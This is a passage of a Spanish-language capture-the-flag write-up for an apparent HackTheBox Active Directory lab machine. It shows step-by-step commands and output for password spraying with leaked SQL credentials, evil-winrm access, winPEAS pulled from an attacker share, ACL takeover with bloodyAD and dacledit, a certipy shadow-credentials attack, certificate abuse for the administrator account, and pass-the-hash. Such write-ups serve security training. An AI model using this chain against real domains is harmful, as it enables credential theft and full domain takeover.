NT SERVICE\MSSQL$SQLEXPRESS                Well-known group S-1-5-80-3880006512-4290199581-1648723128-3569869737-3631323133 Enabled by default, Enabled group, Group owner                  
LOCAL                                      Well-known group S-1-2-0                                                         Mandatory group, Enabled by default, Enabled group              
Authentication authority asserted identity Well-known group S-1-18-1                                                        Mandatory group, Enabled by default, Enabled group              
SEQUEL\SQLServer2005SQLBrowserUser$DC01    Alias            S-1-5-21-548670397-972687484-3496335370-1128                    Mandatory group, Enabled by default, Enabled group, Local Group 
SEQUEL\SQLRUserGroupSQLEXPRESS             Alias            S-1-5-21-548670397-972687484-3496335370-1129                    Mandatory group, Enabled by default, Enabled group, Local Group 
Mandatory Label\High Mandatory Level       Label            S-1-16-12288                                                                                                                    
                                                                                                                                                                                            
                                                                                                                                                                                            
PRIVILEGES INFORMATION                                                                                                                                                                      
----------------------                                                                                                                                                                      
                                                                                                                                                                                            
Privilege Name                Description                    State                                                                                                                          
============================= ============================== ========                                                                                                                       
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled 
SeCreateGlobalPrivilege       Create global objects          Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled
```

Revisando la carpeta *SQL2019*, logramos encontrar credenciales del usuario *sql_svc* en claro en el fichero *sql-Configuration.INI*:
```console
PS C:\SQL2019\ExpressAdv_ENU> type sql-Configuration.INI
[OPTIONS]
ACTION="Install"
QUIET="True"
FEATURES=SQL
INSTANCENAME="SQLEXPRESS"
INSTANCEID="SQLEXPRESS"
RSSVCACCOUNT="NT Service\ReportServer$SQLEXPRESS"
AGTSVCACCOUNT="NT AUTHORITY\NETWORK SERVICE"
AGTSVCSTARTUPTYPE="Manual"
COMMFABRICPORT="0"
COMMFABRICNETWORKLEVEL=""0"
COMMFABRICENCRYPTION="0"
MATRIXCMBRICKCOMMPORT="0"
SQLSVCSTARTUPTYPE="Automatic"
FILESTREAMLEVEL="0"
ENABLERANU="False"
SQLCOLLATION="SQL_Latin1_General_CP1_CI_AS"
SQLSVCACCOUNT="SEQUEL\sql_svc"
SQLSVCPASSWORD="WqSZAF6CysDQbGb3"
SQLSYSADMINACCOUNTS="SEQUEL\Administrator"
SECURITYMODE="SQL"
SAPWD="MSSQLP@ssw0rd!"
ADDCURRENTUSERASSQLADMIN="False"
TCPENABLED="1"
NPENABLED="1"
BROWSERSVCSTARTUPTYPE="Automatic"
IAcceptSQLServerLicenseTerms=True
```

Hacemos una barrida con los usuarios encontrados y la contraseña del usuario *sql_svc*, logramos evidenciar que se reutiliza la misma contraseña sobre el usuario *Ryan*:
```console
nxc smb 10.10.11.51 -u files/users.txt -p WqSZAF6CysDQbGb3 --continue-on-success
SMB         10.10.11.51     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:sequel.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.51     445    DC01             [-] sequel.htb\Administrator:WqSZAF6CysDQbGb3 STATUS_LOGON_FAILURE 
SMB         10.10.11.51     445    DC01             [-] sequel.htb\Guest:WqSZAF6CysDQbGb3 STATUS_LOGON_FAILURE 
SMB         10.10.11.51     445    DC01             [-] sequel.htb\krbtgt:WqSZAF6CysDQbGb3 STATUS_LOGON_FAILURE 
SMB         10.10.11.51     445    DC01             [-] sequel.htb\DC01$:WqSZAF6CysDQbGb3 STATUS_LOGON_FAILURE 
SMB         10.10.11.51     445    DC01             [-] sequel.htb\michael:WqSZAF6CysDQbGb3 STATUS_LOGON_FAILURE 
SMB         10.10.11.51     445    DC01             [+] sequel.htb\ryan:WqSZAF6CysDQbGb3 
SMB         10.10.11.51     445    DC01             [-] sequel.htb\oscar:WqSZAF6CysDQbGb3 STATUS_LOGON_FAILURE 
SMB         10.10.11.51     445    DC01             [+] sequel.htb\sql_svc:WqSZAF6CysDQbGb3 
SMB         10.10.11.51     445    DC01             [-] sequel.htb\rose:WqSZAF6CysDQbGb3 STATUS_LOGON_FAILURE 
SMB         10.10.11.51     445    DC01             [-] sequel.htb\ca_svc:WqSZAF6CysDQbGb3 STATUS_LOGON_FAILURE 
SMB         10.10.11.51     445    DC01             [-] sequel.htb\angela:WqSZAF6CysDQbGb3 STATUS_LOGON_FAILURE 
SMB         10.10.11.51     445    DC01             [-] sequel.htb\oscar:WqSZAF6CysDQbGb3 STATUS_LOGON_FAILURE 
SMB         10.10.11.51     445    DC01             [-] sequel.htb\kevin:WqSZAF6CysDQbGb3 STATUS_LOGON_FAILURE 
SMB         10.10.11.51     445    DC01             [-] Connection Error: The NETBIOS connection with the remote host timed out.
```

Recordemos que este usuario tiene permisos para conexiones remotas por el protocolo **WinRM**, utilizamos la herramienta **evil-winrm** para establecer conexión y leer la flag de user:
```console
evil-winrm -i 10.10.11.51 -u ryan -p WqSZAF6CysDQbGb3
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\ryan\Documents> cd ..
*Evil-WinRM* PS C:\Users\ryan> cd Desktop
*Evil-WinRM* PS C:\Users\ryan\Desktop> dir


    Directory: C:\Users\ryan\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---         2/1/2025  11:41 AM             34 user.txt


*Evil-WinRM* PS C:\Users\ryan\Desktop> cat user.txt
**************************************
*Evil-WinRM* PS C:\Users\ryan\Desktop> 
```

## Escalada de privilegios
Revisamos información y permisos con el usuario *Ryan* sobre **Bloodhound**, vemos que este usuario tiene permisos *Ryan* tiene permiso de escritura de propietario sobre la cuenta *ca_svc*:


Revisamos la cuenta *ca_svc*, vemos que es una CA (Autoridad certificadora), por lo que la escalada de privilegios podría venir por la explotación de los certificados del Directorio Activo:


Ejecutamos **winPEAS**, vemos que está en *True* la exportación de la clave, esto puede ser muy peligroso, ya que podría ser vulnerable a **Certipy**:
```console
*Evil-WinRM* PS C:\Users\ryan\Downloads> \\10.10.14.155\a\winPEASx64.exe
 [!] If you want to run the file analysis checks (search sensitive information in files), you need to specify the 'fileanalysis' or 'all' argument. Note that this search might take several minutes. For help, run winpeass.exe --help                                                                                                                                                 
ANSI color bit for Windows is not set. If you are executing this from a Windows terminal inside the host you should run 'REG ADD HKCU\Console /v VirtualTerminalLevel /t REG_DWORD /d 1' and then start a new CMD
<SNIP>
ÉÍÍÍÍÍÍÍÍÍ͹ Enumerating machine and user certificate files
                                                                                                                                                                                            
  Issuer             : CN=sequel-DC01-CA, DC=sequel, DC=htb
  Subject            : CN=DC01.sequel.htb
  ValidDate          : 6/8/2024 10:35:00 AM
  ExpiryDate         : 6/8/2025 10:35:00 AM
  HasPrivateKey      : True
  StoreLocation      : LocalMachine
  KeyExportable      : True
  Thumbprint         : C3AC8BFD6132ED7729757F5E69901CED528EAAC5

  Template           : DomainController
  Enhanced Key Usages
       Client Authentication     [*] Certificate is used for client authentication!
       Server Authentication
   =================================================================================================

  Issuer             : CN=sequel-DC01-CA, DC=sequel, DC=htb
  Subject            : CN=sequel-DC01-CA, DC=sequel, DC=htb
  ValidDate          : 6/8/2024 9:50:40 AM
  ExpiryDate         : 6/8/2124 10:00:40 AM
  HasPrivateKey      : True
  StoreLocation      : LocalMachine
  KeyExportable      : True
  Thumbprint         : 4C4A178BF30A37D8E21D5C5CE634C8552E5769F9

```

Hacemos una comprobación con el módulo *adcs* de **netexec**:
```console
nxc ldap 10.10.11.51 -u ryan -p WqSZAF6CysDQbGb3 -M adcs                                    
SMB         10.10.11.51     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:sequel.htb) (signing:True) (SMBv1:False)
LDAP        10.10.11.51     389    DC01             [+] sequel.htb\ryan:WqSZAF6CysDQbGb3 
ADCS        10.10.11.51     389    DC01             [*] Starting LDAP search with search filter '(objectClass=pKIEnrollmentService)'
ADCS        10.10.11.51     389    DC01             Found PKI Enrollment Server: DC01.sequel.htb
ADCS        10.10.11.51     389    DC01             Found CN: sequel-DC01-CA
```

Utilizamos la herramienta **certipy** con la opción *find*, con la intención de identificar posibles certificados vulnerables:
```console
certipy find -u ryan@sequel.htb -p WqSZAF6CysDQbGb3 -dc-ip 10.10.11.51                                                                
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 34 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 12 enabled certificate templates
[*] Trying to get CA configuration for 'sequel-DC01-CA' via CSRA
[!] Got error while trying to get CA configuration for 'sequel-DC01-CA' via CSRA: CASessionError: code: 0x80070005 - E_ACCESSDENIED - General access denied error.
[*] Trying to get CA configuration for 'sequel-DC01-CA' via RRP
[*] Got CA configuration for 'sequel-DC01-CA'
[*] Saved BloodHound data to '20250201210751_Certipy.zip'. Drag and drop the file into the BloodHound GUI from @ly4k
[*] Saved text output to '20250201210751_Certipy.txt'
[*] Saved JSON output to '20250201210751_Certipy.json'
```

Revisamos los certificados, parece que *DunderMifflinAuthentication* podría sernos de ayuda, eso si, necesitaremos comprometer a *ca_svc* para tener control total y aprovechar esta deficiencia para explotar **Certipy**:


Al intentar el ataque por *shadow* sobre la cuenta *ca_svc*, vemos que no tenemos permisos:
```console
certipy shadow auto -u ryan@sequel.htb -p WqSZAF6CysDQbGb3 -dc-ip 10.10.11.51 -account ca_svc
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Targeting user 'ca_svc'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID '32148003-f5e1-5369-ce2b-c10e52d08fdf'
[*] Adding Key Credential with device ID '32148003-f5e1-5369-ce2b-c10e52d08fdf' to the Key Credentials for 'ca_svc'
[-] Could not update Key Credentials for 'ca_svc' due to insufficient access rights: 00002098: SecErr: DSID-031514A0, problem 4003 (INSUFF_ACCESS_RIGHTS), data 0
```

Usamos **bloodyAD** para cambiar el propietario y otorgarnos permisos suficientes para ejecutar acciones sobre nosotros mismos:
```console
bloodyAD --host '10.10.11.51' -d 'escapetwo.htb' -u 'ryan' -p 'WqSZAF6CysDQbGb3' set owner 'ca_svc' 'ryan'
[+] Old owner S-1-5-21-548670397-972687484-3496335370-512 is now replaced by ryan on ca_svc
```

Probamos con **impacket-dacledit** para intentar modificar los permisos de acceso (*ACLs*) de *ca_svc* para otorgarnos control total sobre nuestro usuario *Ryan*:
```console
impacket-dacledit  -action 'write' -rights 'FullControl' -principal 'ryan' -target 'ca_svc' 'sequel.htb'/"ryan":"WqSZAF6CysDQbGb3"

Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] DACL backed up to dacledit-20250208-083828.bak
[*] DACL modified successfully!
```

Volvemos a repetir el ataque por *shadow* sobre la cuenta *ca_svc*, esta vez con éxito y obtenemos su hash *NTLM*:
```console
certipy shadow auto -u ryan@sequel.htb -p WqSZAF6CysDQbGb3 -dc-ip 10.10.11.51 -account ca_svc                                     
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Targeting user 'ca_svc'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID 'fc7393bc-d899-02a6-2caa-068310f64e86'
[*] Adding Key Credential with device ID 'fc7393bc-d899-02a6-2caa-068310f64e86' to the Key Credentials for 'ca_svc'
[*] Successfully added Key Credential with device ID 'fc7393bc-d899-02a6-2caa-068310f64e86' to the Key Credentials for 'ca_svc'
[*] Authenticating as 'ca_svc' with the certificate
[*] Using principal: ca_svc@sequel.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'ca_svc.ccache'
[*] Trying to retrieve NT hash for 'ca_svc'
[*] Restoring the old Key Credentials for 'ca_svc'
[*] Successfully restored the old Key Credentials for 'ca_svc'
[*] NT hash for 'ca_svc': ***********************
```

Ejecutamos el siguiente comando con la herramienta **certipy-ad**, esto nos permite solicitar un certificado para el usuario *Administrator* utilizando las credenciales de *ca_svc* y su hash *NTLM*:
```console
certipy-ad req -u ca_svc -hashes '***********************' -ca sequel-DC01-CA -target sequel.htb -dc-ip 10.10.11.51 -template DunderMifflinAuthentication -upn administrator@sequel.htb -ns 10.10.11.51 -dns 10.10.11.51 -debug
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[+] Trying to resolve 'sequel.htb' at '10.10.11.51'
[+] Generating RSA key
[*] Requesting certificate via RPC
[+] Trying to connect to endpoint: ncacn_np:10.10.11.51[\pipe\cert]
[+] Connected to endpoint: ncacn_np:10.10.11.51[\pipe\cert]
[*] Successfully requested certificate
[*] Request ID is 9
[*] Got certificate with multiple identifications
    UPN: 'administrator@sequel.htb'
    DNS Host Name: '10.10.11.51'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator_10.pfx'
```

Ejecutamos la opción *auth* de **certipy-ad** junto el certificado anteriormente generado y obtendremos el *NT hash* del usuario *Administrator*:
```console
certipy-ad auth -pfx administrator_10.pfx -dc-ip 10.10.11.51 -domain sequel.htb
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Found multiple identifications in certificate
[*] Please select one:
    [0] UPN: 'administrator@sequel.htb'
    [1] DNS Host Name: '10.10.11.51'
> 0
[*] Using principal: administrator@sequel.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@sequel.htb': aad********************ee:*************************
```

Con el hash *NTLM*, ya podemos establecer una conexión con **evil-winrm** y leer la flag de *root*:
```console
evil-winrm -i 10.10.11.51 -u administrator -H ******************************** 
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
sequel\administrator
*Evil-WinRM* PS C:\Users\Administrator\Documents> type ..\Desktop\root.txt
***********************************
*Evil-WinRM* PS C:\Users\Administrator\Documents>
```
¡Hasta la próxima! ¡Que la "*suerte*" os acompañe!